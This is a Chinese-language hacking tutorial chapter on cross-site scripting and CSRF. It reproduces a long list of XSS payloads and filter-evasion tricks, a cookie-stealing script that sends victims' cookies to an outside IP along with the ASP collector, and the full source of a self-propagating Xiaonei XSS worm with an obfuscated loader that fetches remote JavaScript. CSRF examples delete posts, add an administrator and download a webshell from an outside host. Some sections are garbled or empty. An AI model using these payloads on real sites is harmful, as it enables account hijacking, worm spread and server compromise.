好了，这一章到这里也应该画上一个句号了。这一章很长，包括了大部分的网络攻击手法，其中一些技术细节只有在你认真读完这一章以后才会体会出来。当然，如 XSS 攻击我没有写，为什么呢？因为我把 XSS 看作了一个比较大的问题，可以算作是一个方向吧，所以另作一章来写。

看完本章，你的感觉如何？是似有所悟还是不明所以？不要晕了哦，了解了现实才会了解真理，大家要好好品味，好好实践哦，一起期待下一章吧。


## 攻防历程

| 攻防记录 | 内容 |
|---|---|
| （表格内容较密集，图中可见为多行多列攻防过程记录） | （原图可辨识度有限） |

### “夺回值日生”

## XSS攻击

## 原理还原


## 笔记005档案：忽略的隐患——XSS攻击及其延伸


XSS 其实由来已久，其理论是基于 HTML 语言的，通常也是由于过滤不严而导致。XSS 在不同的人手里发挥着不同的作用，不要以为弹个框框就是 XSS 的尽头了，利用它可以盗 cookie、制造蠕虫等，存在 XSS 的地方就是这些漏洞的源头。下面，让我们一起来好好了解下 XSS。

## 5.1 XSS 产生于分析的理论基础

#### 5.1.1 XSS 的发展概况

在了解 XSS 之前，我们来看一下维基百科对 XSS 是如何描述的。当网景（Netscape）最初推出 JavaScript 语言时，他们已经察觉到准许网页服务器传送可执行的程序码给一个浏览器所带来的安全风险（即使仅是在一个浏览器的沙盒里）。它所造成的一个关键的问题在于，当使用者同时开启多个浏览器页面时，在某些例子里，网页里的片断程序码被允许从另一个网页或组件取出资料。而因为恶意的网站可以用这个方法来尝试窃取机密信息，所以在某些时候，这应是完全被禁止的。

为了解决这个问题，浏览器采用了与最初相同的决策——允许来自相同网域名称系统（DNS）和使用相同协议的组件与网页之间的任何互动。这样一来，恶意的网站便无法通过 JavaScript 在另一个浏览器窃取机密资料。此后，为了保护使用者免受恶意的危害，其它的浏览器与服务端指令语言采用了类似的存取控制策略。

一般而言，跨网站代码的漏洞常见于网页允许攻击者通过这些机制的弱点获得更高的特权，窃取机密的网页内容、会话的 cookie、以及许多其它的组件，这就是跨站脚本攻击，即 Cross-site scripting。

一般来说，Cross-site scripting 应该缩写为 CSS，但因为 CSS 在网页设计领域已经被泛指“层叠样式表（Cascading Style Sheets）”，所以将 Cross 改以发音相近的 X 作为缩写，也就是 XSS 了。不过早期的文件还是会使用 CSS 表示 Cross-site scripting。

#### 5.1.2 XSS 的存在价值

跨站脚本攻击最大的魅力是通过 HTML 注入劫持用户的浏览器，任意构造用户当前浏览的 HTML 内容，甚至可以模拟用户当前的操作。

举例：2005 年 Samy 蠕虫利用 XSS，20 小时内就传染了一百万用户，最后导致 MySpace 站瘫痪。2007 年是 XSS 跨站攻击横行的一年，主流搜索引擎大部分都暴露出搜索型跨站漏洞，百度空间蠕虫、校内网 XSS 蠕虫、天空下载站被挂蠕虫，直到 GOOGLE 社交网站也爆跨站脚本漏洞……对案例的列举就可以肯定 XSS 存在的价值，不管出于对互联网安全的推动方面，还是对于脚本语言功能的深度探索，抑或是出于商业的操作，XSS 都有其存在的价值。

#### 5.1.3 XSS 产生的环境及影响

就我个人而言，对于任何可以改变参数的地方都有其存在 XSS 的危险。不管是表单提交还是一些 URL 跳转，抑或是一些隐藏型的变量，只要过滤不严格，一切都会变得很严重。而我们通常所了解的 XSS 弹框框只是冰山一角，大规模的蠕虫爆发不仅会让网站处于瘫痪状态，而对于一些电子商务类型的客户来说，这些危险的存在则会成为潜在的隐患——这可是货真价实的天敌。

正在浏览邮箱的你，是否察觉到个人信息正在被发送到攻击者指定的文件里呢？正在后台操作进行管理网站的你，是否发现自己已身处陷阱，自己的一举一动都在为攻击者创造着他想要的结果……

## 5.2 WEB 环境中 XSS 问题的发掘

#### 5.2.1 HTML 常用代码的属性了解

XSS 发起的基础就是构造有效的代码从而发起攻击，因此有必要对 HTML 常用的代码属性进行了解。基础不好是很难发现并利用这些漏洞了，下面我们一起来看下这些属性的具体内容，如表 1 所示。

表 1

| 标签 | 属性值（示例） | 说明 |
|---|---|---|
| a | href, name | 超链接的起始或目的位置 |
| base | href | base 元素必须出现在文档的 head 内 |
| BGSOUND | src |  |
| body | onblur, onfocus, onload, onunload | 与很多标签组合产生属性 |
| br | size |  |
| embed | src |  |
| frame | src |  |
| hr | size, width, color |  |
| iframe | src, border |  |
| img | src, STYLE |  |
| input | onClick, Type[src] |  |
| isindex | onerror, src |  |
| link | src |  |
| select | onchange |  |
| table | border, width, height, color, BACKGROUND |  |
| textarea | STYLE |  |
| 关于 XSS 问题涉及到的 CSS |  |  |
| import | url |  |
| expression |  |  |
| background-image |  |  |

#### 5.2.2 DOM-based 类型及背景

DOM 是 Document Object Model 文档对象模型的缩写，根据 W3C DOM 规范，DOM 是一种与浏览器、平台、语言无关的接口，使得你可以访问页面的其它标准组件。由于 DOM 中也使用到了大量的 JavaScript 脚本；而 DOM 的功能比普通的 HTML 语言更强大，因此这种类型的 XSS 似乎更为严重。

XSS 的产生是输入或者输出过滤不当引起的，在 DOM 里面也有“输入”相关的操作，如下部分语句：

```text
document.URL

document.URLUnencoded

document.location (...)（自身还有很多属性）

document.referer

window.location (...)（自身还有很多属性）
```

当然相对应的也有“输出”/“提取”/“执行”等操作，如下部分语句：

```text
document.write(...)

document.writeln(...)

document.body.innerHtml=...

document.forms[0].action=...

document.attachEvent(...)

document.create*(...)

document.execCommand(...)

document.body....

window.attachEvent(...)

document.location=...

document.location.hostname=...

document.location.replace(...)

document.location.assign(...)

document.URL=...

window.navigate(...)

document.open(...)
window.open(...)
window.location.href=...
eval(...)
window.execScript(...)
window.setInterval(...)
window.setTimeout(...)
```

至于上面的函数如何使用并不是这里要讲到的内容，这些属性极易引起 BUG。

#### 5.2.3 脚本语言代码的使用及变形探讨

其实，如果讲究起这些代码来是很多的，但最基本的语句都是基于这些属性演变而来的。我们来看一下基本的跨站语句有哪些：


```text
><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
"><script>alert(document.cookie)</script>
<script>alert('vulnerable')</script>
%3Cscript%3Ealert('XSS')%3C/script%3E
<script>alert('XSS')</script>

<div style="height:expression(alert('XSS'));"></div>


<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript:alert('XSS')">
<BODY ONLOAD=alert('XSS')>


<BGSOUND SRC="javascript:alert('XSS')">
<br size="&{alert('XSS')}">
<LAYER SRC="http://test.com/a.js"></layer>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">


```

我就不再一一列举了，除了常见的 script 标签外，还有 javascript 和 vbscript。另外的就是一些标签属性值的利用了，除了上面的这些外，还有一些小技巧可以用到这上面来，常见的方法有：

- 1. 拆分法  
  这类方法主要是用于程序过滤一些关键字眼时，如：`getURL("javascript:alert('xss')")`，可以变形为：  
  `a="get";b="URL";c="javascript:";d="alert('XSS')";eval(a+b+c+d);`

- 2. 空格法  
  比如对 PHPWINDBLOG4.3.2 相册管理中“图片描述”的 XSS，就可以将 `<script>alert('XSS')</script>` 用空格法调整成 `<script>alert('XSS')</script>`，这样即可达到测试的效果。

- 3. 转码法  
  一说转码一般都明白，就是将 WEB 过滤的危险代码进行合理转码。之前提及的几个基本的 XSS 测试代码里面就有转码的测试码 `%3Cscript%3Ealert('XSS')%3C/script%3E`。`<script>alert('XSS')</script>` 的 URL 格式为：`%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%27%58%53%53%27%29%3C%2F%73%63%72%69%70%74%3E`。

当然还有其它格式的，我们可以用专门的 XSS 转码工具将语句转成很多种形式。如下图设置选项后点击要转成的形式（如十进制），再点击“10 进制转码”，即可得到结果。

- 4. 混淆法  
  当一些程序注意到跨站危害时会过滤一些关键字符，这样我们又有了可乘之机，如下语句：

```html
  // 插入混淆的 src 属性
<SCRIPT>[code]</SCRIPT>">   // 插入混淆的双引号及“>”符号
<SCRIPT a=""> SRC='xss.js'></SCRIPT>   // 插入混淆的属性
```


图 1


图 2

- 5. 用 ASCII 码填充

因为系统控制字符一共有 33 个，去掉头 `&#00(null)` 和尾 `&#127(del)`，其它的都可以顺利地插入到代码中且不影响原代码的执行。如 ``。

- 6. 注释符的魔术

在 HTML 语言中也存在注释符以及一些被忽略的特殊符号，因此在代码中插入这些字符也可以成功绕过一些检测系统，并不影响代码的顺利执行，如下语句：

```html
  // css 的注释符号为 /*...*/
<style>@import'\ja\vas\cript:alert("XSS")';</style>  // css 忽略的转义符
exp/*<A STYLE='no\xss:noxss("/*"*/);xss&#101;x&#x2F;*XSS*//*/*/pression(alert('XSS'))'>
<style><!—</style><script>[code]//—></script>  // html 的注释符 <!-- 注释 -->
```

- 7. JS 编码以及调用

如果系统的过滤太多，还有一种方法值得考虑，就是从外部引入 JS 进行攻击。当然，由于浏览器对 ajax 的安全机制，你必须保证调用的文件在相同的服务器上，不然会出现错误提示的。

- 8. 综合法

当然就是把上面的一些方法交叉进行以达到掩人耳目的目的。

### 5.3 如何利用 XSS

#### 5.3.1 对入库型 XSS 分析

- 1. 恶意用户植入代码；
- 2. 用户浏览 web 程序；
- 3. 恶意代码的执行。

为了使大家更好理解，我以 blogbus 的一处 XSS 来进行分析举例。我们注册一个用户后，来到“博客”->“模板”->“首页布局设置”，然后来到“文章内容[编辑]”，点击编辑后弹出对话框，我们在“编辑链接”处加上 `<script>alert(/test/)</script>` 语句，如图 3。

确定后再到我们申请的用户首页浏览一下，效果如图 4，成功弹出了对话框。


现在确认可以在这里进行入库的 XSS 攻击了，接下来我们可以做很多事情，这里我以盗取 cookie 为例。还是刚才的那段 `<script>alert(/test/)</script>` 语句，我们把它改成：`<script>document.location='http://119.98.96.178:81/aaa.asp?msg='+document.cookie</script>`，其中 `http://119.98.96.178:81/aaa.asp` 就是我盗取 cookie 的 asp 代码，内容如下：

```asp
<%
cookiefile=Server.MapPath("cookie.txt")
set fs=server.CreateObject("scripting.filesystemobject")
set cookiefile=fs.OpenTextFile(cookiefile,8,True,0)
cookiefile.Write(Request.QueryString&"<br>")
cookiefile.close
set fs = nothing
%>
```

好了，再次保存，我们再访问一下 `http://testaaa.blogbus.com`，发现页面在出现首页内容后再次转向了另外一个页面，效果如图 5。


我们再看一下是不是有 `cookie.txt` 生成了。找到 `cookie.txt`，打开一看果然截获到了用户的 cookie，如图 6。


图 6

看到没，漏洞是明显的，但利用起来容易被人发现。现在我们来欣赏一下余弦前辈写的一篇文章《跨站不仅仅是 alert()》。

## 《跨站不仅仅是alert()》

##### 一、引子

目前所有的黑客技术中，使用最频繁的就是 XSS（Cross-Site Scripting），也就是我们常说的跨站脚本攻击（这是一种攻击手法，当然也可以理解为一类漏洞）。探究为什么会存在跨站这个问题，没什么意义，反正它就在那里，和其它漏洞一样，跨站的产生往往都是因为程序员“懒”。

假如世界上第一只 XSS WORM（Samy）没出来的话，也不会有那么多人去关注这类看似无聊的攻击手法（假如你仅仅会弹出一个框而已）。当满世界都是弹出框时，你难道不认为要来点更有趣的行动吗？

其实 XSS 在 WEB1.0 时代就已经存在，而在 WEB2.0 时代开始变得越来越有趣。根据 WEB2.0 的特性，此时的互联网是一个以用户为数据中心的 SNS 网络。比如 MySpace、百度空间、校内网、QQ 空间等，用户之间可以互相访问，假如访问时，用户保持着会话（session）并且很“幸运地”访问到了一个有 XSS 陷阱的网页，由于在同域内，XSS 陷阱就可以利用你自身的权限做你可以做的事（这些是指你在某 SNS 网络上的账户权限范围内的事），比如：修改你的个人档案、删除你的日志、以你的名义向你的好友们发送欺骗信息，并将这个 XSS 陷阱植入你的空间等，完成这一系列动作也许只要几秒钟。这就是蠕虫，并具有传播性质。

在本文开始之前，我们有必要了解一下 XSS 到底邪恶在哪，那些满世界的弹出框到底有多大价值。

##### 二、XSS 能做什么

按特征来划分，我将其分为三大类，各分类之间并没有明显界限：

- 1. 用来跳转到不可预知的页面或执行不可预知的脚本；
- 2. 用来实现定向攻击；
- 3. 用来诞生 XSS WORM，具备传播性。

第 1 类是最普遍的，往往被用在钓鱼欺骗上。比如我们在账户登录口做 XSS 陷阱，简单的例子：

```text
https://passport.baidu.com/?login&u=./?'</script><script>alert(document.cookie)//
```

当你打开这个链接，输入你的百度空间账户与密码登录时，会弹出你的百度空间 cookie 信息。黑客可以在第三方服务器上构造服务端程序来获取你的 cookie 信息。真正钓鱼时并不会弹框，一切都更像平常一样。

第 2 类主要用来实现定向攻击，比如针对性挂马、针对性盗 cookie、针对性提权、针对性发送大量垃圾信息、针对性摧毁某人的所有数据。

第 3 类的 XSS WORM 是最可爱的，也是针对 SNS 网络的高级报复手段。它可以综合以上提到的各类技术手段，并具备蠕虫性质，可以在一天之内感染 SNS 网络上的百万用户。它可以引发一次庞大的 DDOS 攻击，甚至可以借助浏览器漏洞或第三方 ActiveX 漏洞将破坏带到你的系统上。

XSS WORM 是基于 WEB2.0 环境下存在的，与你使用的操作系统无关（LINUX、UNIX、WINDOWS 等）。当你关闭浏览器时，你并不会发现你的系统受到任何影响（假设这个 WORM 不挂马）。此时你要担心的是这个 SNS 网络中你的数据。弹出框只是确定站点是否有 XSS 漏洞的表现形式，后续渗透更看实力。

### 三、校内网 XSS WORM

可惜现在这个 0DAY 已经被扼杀了，0DAY 在它已经不重要，关键的是了解这个 WORM。本来我还犹豫是否要公开这个跨站点，现在没任何后顾之忧了，这个蠕虫源码也将全部公开。那就以这个为例子，好好了解。

解一下整个渗透过程吧。

渗透之前，必须熟悉目标的渗透环境，有什么功能模块、客户端代码逻辑等。

###### 1. XSS 导火线

我发现在校内网的日志评论区存在跨站漏洞，评论是允许 UBB 码的，唯一有价值的 UBB 码是 `[link][/link]`，这个会被服务端转变为这样的形式 `<a href=""></a>`。当构造的 UBB 码为：`[link]http://hi.baidu.com/ycosxhack" style="[/link]` 时，服务端返回 `<a href="http://hi.baidu.com/ycosxhack" style=""></a>`。

可以看出，没过滤双引号，于是我们就可以在 style 内执行 JavaScript 代码。style 属性内一般是写 CSS 的，不过有两种方法可以在 CSS 内执行 JS 脚本（针对 IE）。一种是 `expression(alert('hixss'))` 表达式；一种是 `background:url(javascript:alert('hixss'))` 这样的 javascript 伪协议形式。IE7 已经抛弃第二种了。


为了将蠕虫影响范围扩大，我们还是用第一种。如图 7，这是一个不容易的弹出框（效果还在，但是漏洞已经被不小心补上了）。

我们一般会将 XSS 陷阱（蠕虫的诞生源，就是这根 XSS 导火线）变形加密，至少不能让大部分人马上就看出 XSS 陷阱的原型。变形加密还有一个原因，有时候为了不被过滤而必须这样做（类似于对我们的木马进行免杀的过程）。

下面就是变形加密过的 XSS 陷阱：

```text
[link]http://hi.baidu.com/ycosxhack" style="cos:expression(eval(String.fromCharCode(105,61,34,102,117,110,99,116,105,111,110,32,108,111,97,100,40,41,123,118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,83,67,82,73,80,84,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,101,118,105,108,99,111,115,46,103,111,111,103,108,101,112,97,103,101,115,46,99,111,109,47,120,45,120,105,97,111,110,101,105,45,119,111,114,109,46,106,115,39,59,120,46,100,101,102,101,114,61,116,114,117,101,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,72,69,65,68,39,41,91,48,93,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,125,59,102,117,110,99,116,105,111,110,32,105,110,106,101,99,116,40,41,123,119,105,110,100,111,119,46,120,33,61,49,63,40,123,119,105,110,100,111,119,46,120,61,49,59,105,110,106,101,99,116,40,41,125,59,34,59,101,120,101,99,83,99,114,105,112,116,40,105,41));"[/link]
```

图 7

String.fromCharCode() 内是十进制码，解密还原后是这样的：

```javascript
i='function load(){var x=document.createElement('SCRIPT');x.src='http://evilcos.googlepages.com/x-xiaonei-worm.js';x.defer=true;document.getElementsByTagName('HEAD')[0].appendChild(x)};function inject(){window.setTimeout('load()',1000)};if(window.x!=1){window.x=1;inject()}}';execScript(i)
```

这段脚本可比一个弹出框有意义多了，它会延时 1 秒钟后动态创建一个 `<script></script>` 标签，调用远程的 JS 文件，我们的蠕虫核心源码就在这个 JS 文件上了。将 defer 设置 true，那么这个远程的 JS 就会等待网页的其它内容加载结束后再调用。随后将这个 `<script></script>` 标签附加到网页的 `<head></head>` 标签内。

这是 JS DOM 的最基本技巧，不理解的话，多百度一下，本文不可能从最基本讲起。其中 `if(window.x!=1){window.x=1;inject()}` 代码段是一个技巧，它会防止 expression 循环执行内部的 JS（expression 的特性）。加上这个技巧，expression 内的 JS 每次将只执行一次。

### 2. 实现 XSS WORM

在校内网这样典型的 SNS 网络中跨站成功后，要发起一个 XSS WORM 并不是一件困难的事。曾经校内网的涂鸦板（用户自定义 CSS 的地方）是可以诞生蠕虫的地方，但是现在已经加上验证码限制，你每更新一次 CSS 都要填写验证码。蠕虫要从这样的环境中诞生，几乎是不可能的，因为蠕虫要传播就必须绕过验证码的限制。但是还是可以进行一些定向攻击，让每个访问你页面的人都不知不觉执行某一段代码，完成某些功能。本文的重点不在此，还是继续前面的操作吧。

还记得前面 XSS 陷阱调用的远程 JS 吗？`http://evilcos.googlepages.com/x-xiaonei-worm.js`（你可以下载下来分析），这个 JS 就是蠕虫的核心源码了，它实现的功能是：将每位访问者的状态自动更新为“大家看看这个博客：http://hi.baidu.com/ycosxhack，然后给我留言 :)”，如图 8。接着帮助访问者发表一篇最新的文章，文章名为“3.7 维度；_（”，内容为“离散值，可惜你看到的是乱码。”最后会在这篇最新的文章下发表评论，评论的内容就是我们的 XSS 陷阱。于是这位访问者的好友们看到他的文章时，这个 XSS 陷阱又开始重复上面这个动作，一个蠕虫就这样传播开了，这样的增长趋势将会越来越大。


图 8

下面的代码没有任何破坏性，我们主要是让大家了解 XSS WORM。

```javascript
var _x=false;
if(window.XMLHttpRequest){
    _x=new XMLHttpRequest();    // 针对FF创建XMLHttpRequest对象
}else if(window.ActiveXObject){
    _x=new ActiveXObject("Msxml2.XMLHTTP");   // 针对IE不同版本创建XMLHttpRequest对象
    if(!_x){_x=new ActiveXObject("Microsoft.XMLHTTP");}
}

new_state();

function new_state(){
    var _w="\u5927\u5bb6\u770b\u770b\u8fd9\u4e2a\u535a\u5ba2\uff1a...";
    var _4=new Ajax.Request("doing.do",{method:"post",parameters:"c="+_w,onComplete:_1,onFailure:_1});
}

function _2(){
    var txt=_3or7("GET","http://blog.xiaonei.com/MyBlog.do",null);
    re=/...GetEntry\.do\?id=(.*?)&owner=(.*?).../;
    r=txt.match(re);
    src="http://blog.xiaonei.com/PostComment.do";

    var _body="[link]http://www.baidu.com/"+
    " style=\"cos.expression(eval(String.fromCharCode(...)))\"[/link]";

    argv=["-----------------------------7964f8dddeb95fc5\r\n",
          "Content-Disposition: form-data; name=\"body\"\r\n\r\n",
          _body+"\r\n",
          "-----------------------------7964f8dddeb95fc5\r\n",
          "Content-Disposition: form-data; name=\"owner\"\r\n\r\n",
          r[2]+"\r\n",
          "-----------------------------7964f8dddeb95fc5\r\n",
          "Content-Disposition: form-data; name=\"id\"\r\n\r\n",
          r[1]+"\r\n",
          "-----------------------------7964f8dddeb95fc5--\r\n"];

    _3or7("POST",src,argv);
}

function _1(){
    // 自动发表新文章相关逻辑...
}
```

```javascript
src="http://blog.xiaonei.com/NewEntry.do";
var title="\u0033\u003e\u0037\u7ef4\u5ea6";
var _body="\u79bb\u6563\u503c\uff0c\u53ef\u60dc\u4f60\u770b\u5230\u7684\u662f\u4e71\u7801\u3002";
var blog_pic_id="";
var pic_path="";
var blogControl="99";
argv="\r\n";
argv+="-----------------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"title\"\r\n\r\n";
argv+=(title+"\r\n");
argv+="-----------------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"body\"\r\n\r\n";
argv+=(_body+"\r\n");
...
_3or7("POST",src,argv);

function _3or7(_m,_s,_a){
  x.open(_m,_s,false);
  if(_m=="POST"){
    x.setRequestHeader("Content-Type","multipart/form-data; boundary=---------------------------7964f8dddeb95fc5");
  }
  x.send(_a);
  return x.responseText;
}
```

眩晕了？到这里我们已经完整实现一个 XSS WORM 了。看看，这个和仅仅一个弹出框比起来，是不是有趣而刺激多了？当然也复杂多了，需要有一定的编码能力。虽然 XSS WORM 使用的核心技术往往相似，但是在不同的 WEB2.0 环境下，XSS WORM 也会有很多差别。

很多技术细节不适合在本文出现，能从文中大致了解 WEB2.0 环境下 XSS 流程就已经足够。如果你要深挖的话，那好好准备吧，XSS 可不只有这么点东西。下面列出与本文有关的一些资料，大家可以去慢慢研究。

##### 相关资料

- 1. 《WhiteHat Website Security Statistics Report》  
  http://www.whitehatsec.com/home/assets/WPstats032408.pdf
- 2. 《一次简单的 html injection 导致的 Gmail 0day》  
  http://www.xfocus.net/articles/2007/1/957.html
- 3. 《渗透百度空间 登录过程》  
  http://hi.baidu.com/ycosxhack/blog/item/7bfdc8194ee2657edbb4bdc8.html
- 4. 《渗透校内网——XSS 过程详解》  
  http://hi.baidu.com/ycosxhack/blog/item/ea93880e321111e337d122ca.html
- 5. 《理解 HTTP 消息头》  
  http://www.binken.cn/article.asp?id=23
- 6. 《web2.0 worm 技术细节》  
  http://hi.baidu.com/ycosxhack/blog/item/c41f3f24c6ceaa37c995597e.html

#### 5.3.2 对非入库型 XSS 的分析

什么是非入库型的 XSS 呢？我们看一个例子你就会明白了。找到个 XSS 点，直接在 IE 地址栏构造语句：

`http://www.antian365.com/ajax.php?action=updateseccode&secchecktype='><script>alert(92561)</script>`，

浏览后效果如图 9。


这种类型的 XSS 是直接从 URL 上构造的，我们可以很明显地看到语句。这种类型的 XSS 有何危害呢？虽然和前面入库类型的比起来利用要麻烦些，但只要对后面跨站的代码进行一定的转码，危害同样很大。如前面提到的把危害页面转成 URL 代码形式发给别人，别人看到前面的站点是比较熟悉并放心的，就不太会注意这个 URL 的危险性。

这类攻击同样可以做很多事，如钓鱼、CSRF 等。钓鱼的原理就和刚才一样，把危害站点隐藏起来放到 URL 后面。但 CSRF 是怎么回事呢？

> CSRF（Cross-site request forgery）即跨站请求伪造，也被称为 “one click attack” 或者 session riding，通常缩写为 CSRF 或者 XSRF。是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与 XSS 非常不同，并且攻击方式几乎相左。XSS 是利用站点内的信任用户，而 CSRF 则通过伪装来自受信任用户的请求利用受信任的网站。

与 XSS 攻击相比，CSRF 攻击往往不太流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比 XSS 更具危险性。为了更确切地说明什么是 CSRF，我们可以打个比方。

比如我是管理员，并且我是信任 A 的；但 A 想对我做手脚，于是 A 通过 XSS 发送一些我管理员才能做的事，如进后台备份、加用户等。A 把这些代码发给我后，我会没有防备地打开 A 发给我的链接。为什么会没有防备呢？因为我是信任 A 的。因此，一个站点里有 XSS 就存在着一个安全防线上的突破点，而像 A 这样的用户对于一些攻击者来说可能到处都是，所以 CSRF 的危害比普通意义上的 XSS 更大。

下面引用我好友小帅写的一篇文章《XSS 的延伸——CSRF 攻击的一些杂谈》中的部分内容，让大家更好地理解 CSRF 攻击。

#### 《XSS 的延伸——CSRF 攻击的一些杂谈》

多余的知识就不再重复了，直接通过示例来了解下 CSRF 攻击吧！先来看看 GET 下的 CSRF。

##### 一、GET 下的例子 1

目标是 Pjblog，在 2.5 版本中的 `blogeditor.asp` 文件的第 79~81 行有这么一段代码：

```asp
Elseif Request.QueryString("action")="del" Or Request.form("action")="del" then
    DeleteLog=IArticle.deleteLog(request("id"))
    set IArticle=nothing
End If
```


我们看到 action 是直接赋值的；先测试下（本地搭了个 IIS），如图 10。

当选择“删除”的时候就是 del 操作，后面跟的是日志编号。利用 CSRF 的话就是回复一句话给管理员，管理员进入这个页面的时候自然就会用他的 session 进行 del，是不是觉得有点意思了呢！？能“删”人家的日志哦！

我们构造下地址，就是管理员操作的地址，接着用 img 标签来执行，格式为：exp:[img]，如 `http://localhost/blogedit.asp?action=del&id=1[/img]`，接着我们回复这个留言，如图 11。


图 11

我看了下 pjblog 的大部分代码，都是 POST 的，这个 GET 方式就给大家一个大概的了解吧，这个不是很典型，只要意会就行了，呵呵。

##### 二、GET 下的例子 2

GET 方式下的第 2 个例子就是樱花浪子说过的一个网域高校，他是利用 XSS 来达到 POST 接着备份的办法，我们来回顾下那个留言的代码：

```asp
book_user=request.form("book_user")
book_contact=request.form("book_contact")
book_content=request.form("book_content")
if sortid="" or tableid="" or ypid="" then
  response.write "<Script>alert('未知错误');window.close();</Script>"
  response.End()
end if
if book_user="" or len(book_user)<2 or len(book_user)>16 then
  response.write "<script>alert('反馈出错，下面是产生错误的可能原因：\n\n请输入2-16位字符的用户名！');window.close()</Script>"
  response.End()
end if
if book_contact="" or len(book_contact)<5 or len(book_contact)>40 then
  response.write "<script>alert('反馈出错，下面是产生错误的可能原因：\n\n请输入5-40位字符的联系方式！');window.close()</Script>"
  response.End()
end if
if book_content="" or len(book_content)<5 or len(book_content)>100 then
  response.write "<script>alert('反馈出错，下面是产生错误的可能原因：\n\n请输入10-100位字符的反馈内容！');window.close()</Script>"
  response.End()
end if
set rs=Server.CreateObject("Adodb.Recordset")
sql="select * from SMT_leaveword"
rs.open sql,conn,1,3
rs.addnew
rs("SMT_book_user")=book_user
rs("SMT_book_contact")=book_contact
```

```asp
rs("SMT_book_content") = book_content   '就用它吧，100个字符够用了
rs("SMT_book_sort") = sortid
rs("SMT_book_table") = tableid
rs("SMT_book_ypid") = ypid
rs.update
rs.close
set rs = nothing
response.write "<script>alert('反馈成功，谢谢您的参与！');window.close();</script>"
response.End()
%>
```

这个地方我们可以做点手脚，我们谈论的是 CSRF，而不是 XSS，虽然有点类似。浪子的办法是写个自动提交的表单，接着用 iframe 标签，我们可以直接用 img 标签。注意了，我是在讲思路，当环境不同时，办法也是不同的，这个不是绝对的。

在不一样的环境里，是采用不一样的办法。也许在某些大站里你就无法自己写 “<” 或 “>”，这些标记一定会被过滤的，那么我们是怎么突破这个瓶颈呢？就是 CSRF！

我们可以提交很多图片，95% 一定要真实的，这样让管理员以为某些图无法显示是因为网速，其实是 CSRF 的代码起作用了。当页面加载完是 GET，GET 里头却是用 `<script>document.form1.submit()</script>` 来自动提交一个表单，不知不觉地，我们成功地突破了 POST 这关，达到了备份。一般的 CMS 站点里的备份是按 `response.write("备份成功!")` 来写的，很少看到弹框。

以下是一段很简单的 XML 代码，我们可以把它保存到自己的一个 webshell 里。例如 `www.test.com/test.asp` 里，接着用 img 标签来触发，借用管理员的 session（这里我们讨论的是 session）来下载 shell，在这之前你如果有网站的路径了（一般 php、jsp 或 aspx 比较容易泄露路径），那么就可以直接用这个标签写个 CSRF 来把 shell 保存到当前的根目录下。

```asp
<%
Set xPost = CreateObject("Microsoft.XMLHTTP")    '//创建对象
xPost.Open "GET", "http://okee.com/shell.txt", False
xPost.Send()

Set sGet = CreateObject("ADODB.Stream")          '//产生数据流
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile Server.MapPath("shell.asp"), 2    '//写入根目录下保存成 shell.asp

set sGet = nothing
set xPOST = nothing
%>
```

这样就行了吗？其实这个办法是错误的，以上的例子 2 就是一个错误的办法。原因在哪呢？就是那个 img 标签，它只是作为对象加载完而已。我用虚拟机本地搭了个环境，测试后发现，当 xmlhttp 是可执行的脚本的话就成功，于是就产生了 html、htm、stm 等脚本是否能上传的想法。

但是这个有很大的局限性，因为现在的站很少能看到让你上传 html，除非那个验证比较松，你可以利用 html 转到站外，接着在站外接受你的数据库来 CSRF。就那么一瞬间，管理员没发现他的数据库已经被人克隆了。

办法 2 就是直接把 cookie 发送到站外，什么意思呢？！类似 `http://localhost/test.asp?a=b&b=a&c=b`，把后面的参数也加上。但是我们是在讲 CSRF，如果用 “<” 或 “>” 就变成了 XSS，那么我们只能否定掉它的存在了。

虽然我们不能对数据库进行操作，但是可以对管理员进行操作的，就是添加一个管理员，前提是参数都是以 GET 方式获取的，如下代码：

```asp
Request("name")
Request("pass")
if request("name")<>0 and request("pass")<>0 then
    Call("add")
end if
```

这样的话我们就可以利用 CSRF 写一个带了很多参数的 CSRF，比如 `http://local/test.asp?name=fucker&pass=You`，这样就成功添加了一个管理员！

##### 三、POST 下的 CSRF

POST 下的 CSRF 就得看各位的忽悠技术了，因为管理员不进你这个页面，再怎么 POST 也没用。我们看下 lake2 的那个 POST：`http://www.0x54.org/lake2/xss_post_forwarder.asp?lake2=http://www.0x54.org/a.asp&a=123&b=321&c=%26%23%25`（这里要自己考虑 URL 编码哦），语句后面的 URL 编码是 `&#%,`，满足脚本条件后，管理员只要用鼠标一点就能操作数据库、管理员等，因为一般情况下都是 GET 的，所以对于 POST 的研究我就比较少了，一旦 POST，什么都可以做了。

##### 四、后记

正如大家所看到的，这个 CSRF 我用了很多文字来描述，原因就是这个 CSRF 很难用几张图说清楚，其中我讲到了一个错误的办法。在测试分析的过程中我遇到了很多棘手的事，希望上面的一些结论能给各位带来点启发。

#### 5.3.3 上传型 XSS 的分析

说实话，估计没有多少人会注意到这个问题，这个问题是我们小组的 vini5 提出来的，并且证实是有效的，下面我们来仔细看下。

要对上传型 XSS 问题进行分析的话，这里必须对程序开发语言进行细分，比如 ASP/PHP/ASP.NET/CGI 等，因为这几种语言对上传文件的检测机制存在异同。关于此类漏洞的利用，主要原理是：**利用程序语言对文件是否存在的检测漏洞构造虚假的文件，通过 `<iframe>` 等可利用代码达到欺骗程序，写入恶意代码的目的**，比如大家非常熟悉的 PHPWIND 跨站挂马漏洞。

同样，在很多文件上传系统中都存在这样的漏洞，我们现在不妨来学习下各程序语言对文件是否存在的检测机制。

##### 1. ASP 对文件是否存在的检测

在这里给出一个简单的案例，看看 ASP 是如何判断上传的文件类型和大小，及对特殊字符的处理，相关代码如下：

```html
<title>文件上传控制检测程序XSS专题测试案例</title>
